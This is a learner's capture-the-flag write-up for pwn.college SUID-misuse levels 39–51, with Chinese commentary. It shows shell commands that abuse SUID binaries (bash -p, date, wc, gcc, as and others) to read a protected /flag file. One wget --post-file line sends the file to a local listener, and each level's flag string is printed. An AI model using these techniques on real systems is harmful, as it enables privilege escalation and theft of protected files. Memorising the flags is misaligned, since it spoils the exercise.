pwn.college{UtH5piA32tLwQLpCFPRDXuFa98r.0FM4EDL2QjMyMzW}
hacker@program-misuse-level-38:~$
level39 Lets you get the flag by doing tricks with permissions!
hacker@program-misuse-level-39:~$ sh file.sh
Welcome to ./babysuid_level39!
This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.
I just set the SUID bit on /usr/bin/cp.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level39) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cp!
一开始想搞个硬链接，然后发现不行，然后输出到标准输出流就行了
hacker@program-misuse-level-39:~$ cp /flag /dev/stdout
pwn.college{Q2azoEz2fXYLZxYkmGAK4PjtrO7.0VM4EDL2QjMyMzW}
hacker@program-misuse-level-39:~$
level40 Lets you get the flag by doing tricks with permissions!
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!
This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.
I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
这题，十分的离谱啊，完全不会做，看的答案，实在是太骚气了，使用mv把cat覆盖mv
hacker@program-misuse-level-40:~$ mv /usr/bin/cat /usr/bin/mv
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!
This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.
I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
hacker@program-misuse-level-40:~$ mv /flag
pwn.college{g9AYY8a5E2v4R8jr_434HNFYEL3.0lM4EDL2QjMyMzW}
hacker@program-misuse-level-40:~$
///@TODO:这个值得记录一下！
这个题让我想起了一个看到的内容： >如果我们在命令之中不使用管道而使用重定向（这是新手可能会犯的错误）那么前一个输出会重写到后面的命令之中造成混乱，比如 cat /flag > more
level41 Lets you read the flag because they let you program anything!
hacker@program-misuse-level-41:~$ sh file.sh
Welcome to ./babysuid_level41!
This challenge is part of a series of programs that
let you read the flag because they let you program anything.
I just set the SUID bit on /usr/bin/perl.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level41) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/perl!
perl是个脚本解释器，
hacker@program-misuse-level-41:~$ perl -ne "print if pwn.college" /flag
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
LANGUAGE = (unset),
LC_ALL = (unset),
LC_CTYPE = "C.UTF-8",
LANG = "en_US.UTF-8"
are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
pwn.college{s8g_u7MkHNRfph-Yrrslj2vzKUJ.01M4EDL2QjMyMzW}
hacker@program-misuse-level-41:~$
打印有pen.college的行
level42 Lets you read the flag because they let you program anything!
hacker@program-misuse-level-42:~$ sh file.sh
Welcome to ./babysuid_level42!
This challenge is part of a series of programs that
let you read the flag because they let you program anything.
I just set the SUID bit on /usr/bin/python.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level42) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/python!
使用python
>>> with open("/flag","r") as f:
... print(f.read())
...
pwn.college{kTtv9lYtW7yK8dnUSvApk5Yv1s-.0FN4EDL2QjMyMzW}
>>>
level43 Lets you read the flag because they let you program anything!
hacker@program-misuse-level-43:~$ sh file.sh
Welcome to ./babysuid_level43!
This challenge is part of a series of programs that
let you read the flag because they let you program anything.
I just set the SUID bit on /usr/bin/ruby.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level43) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ruby!
用ruby写脚本
# 打开文件
File.open('/flag', 'r') do |f|
# 读取文件内容
content = f.read
# 输出文件内容
puts content
end
hacker@program-misuse-level-43:~$ ruby level43.rb
pwn.college{smGb0PfTvxp0__6HgKHsucNW2Pg.0VN4EDL2QjMyMzW}
hacker@program-misuse-level-43:~$
level44 Lets you read the flag because they let you program anything!
hacker@program-misuse-level-44:~$ sh file.sh
Welcome to ./babysuid_level44!
This challenge is part of a series of programs that
let you read the flag because they let you program anything.
I just set the SUID bit on /usr/bin/bash.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level44) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bash!
bash，参照之前的题拿到提示符
hacker@program-misuse-level-44:~$ bash -p
bash-5.0# cat /flag
pwn.college{wsQ6idwZWBnJ7doJInQhvY0hBVg.0lN4EDL2QjMyMzW}
bash-5.0#
level45 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-45:~$ sh file.sh
Welcome to ./babysuid_level45!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/date.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level45) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/date!
手册里写了-f读文件
hacker@program-misuse-level-45:~$ date -f /flag
date: invalid date 'pwn.college{E0wTS_9vWAv5Z6QWVWGpaHKER5P.01N4EDL2QjMyMzW}'
hacker@program-misuse-level-45:~$
level46 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-46:~$ sh file.sh
Welcome to ./babysuid_level46!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/dmesg.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level46) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/dmesg!
显示开机时间之类的东西
hacker@program-misuse-level-46:~$ dmesg -F /flag
[ 0.000000] pwn.college{Q8U4rT5_srr0BlLq1ZlDOJx0yDe.0FO4EDL2QjMyMzW}
hacker@program-misuse-level-46:~$
都是看手册
level47 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-47:~$ sh file.sh
Welcome to ./babysuid_level47!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/wc.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level47) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wc!
wc一般用于统计行号、字数什么的。
hacker@program-misuse-level-47:~$ wc --files0-from=/flag
wc: 'pwn.college{shy1dFSZ2LmpPnQ-OAl_RoDeLxh.0VO4EDL2QjMyMzW}'$'\n': No such file or directory
hacker@program-misuse-level-47:~$
从手册来看就上面这个不是统计数量的，因此就它了！
level48 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-48:~$ sh file.sh
Welcome to ./babysuid_level48!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
有点儿意思，gcc都出来了
hacker@program-misuse-level-48:~$ gcc -x c -E /flag
# 1 "/flag"
# 1 "<built-in>"
# 1 "<command-line>"
# 31 "<command-line>"
# 1 "/usr/include/stdc-predef.h" 1 3 4
# 32 "<command-line>" 2
# 1 "/flag"
pwn.college{UgtHTJRU8raItcJF89PS-hM7Rh9.0FM5EDL2QjMyMzW}
hacker@program-misuse-level-48:~$
它这个必须要指定语言，不然不能运行
///@TODO: 这个一定要去看官方解答，直接在一个程序里面include ‘/flag’，然后靠报错得到flag，非常有启发
level49 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-49:~$ sh file.sh
Welcome to ./babysuid_level49!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
as:汇编语言的编译器
hacker@program-misuse-level-49:~$ as -g /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{MqHCh7Oprd3rEP2f1i_RgAl8QZR.0VM5EDL2QjMyMzW}'
hacker@program-misuse-level-49:~$
通过调试输出
level50 Just straight up wasn’t designed to let you read files!
hacker@program-misuse-level-50:~$ sh file.sh
Welcome to ./babysuid_level50!
This challenge is part of a series of programs that
just straight up weren't designed to let you read files.
I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
wget:下载器
hacker@program-misuse-level-50:~$ nc -lp 8888 & wget --post-file=/flag http://127.0.0.1:8888
[1] 5873
--2023-07-22 13:39:17-- http://127.0.0.1:8888/
Connecting to 127.0.0.1:8888... connected.
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 127.0.0.1:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
HTTP request sent, awaiting response... pwn.college{M8oJZxXsT1hCl5_WCWqpA-ITlJZ.0lM5EDL2QjMyMzW}
有个叫文件上传的功能，这个看了一个别人的答案
level51 Shows how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part)!
hacker@program-misuse-level-51:~$ sh file.sh
Welcome to ./babysuid_level51!
This challenge is part of a series of programs that
show you how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part!).
I just set the SUID bit on /usr/bin/ssh-keygen.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level51) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ssh-keygen!
这个我是一点儿都不会，看了一下讲解才明白，G
这个就是写一个C/C++程序，里面要有C_GetFunctionList这个函数，然后用sendfile来open文件。
然后使用gcc编译成.so文件，最后使用ssh-keygen -D即可。
hacker@program-misuse-level-51:~$ ssh-keygen -D ./level51.so
pwn.college{koI1pFWalnNHyjlN_NQ4CLcsasT.01M5EDL2QjMyMzW}
C_GetFunctionList for provider ./level51.so failed: 57
cannot read public key from pkcs11
hacker@program-misuse-level-51:~$
值得记录的内容
关于mv 那块儿的，[一个博客]（https://medium.com/workindia-in/the-dark-side-of-mv-command-3419c1bd619）
最后一个题的讲解,这玩意儿不讲是真不会，太菜了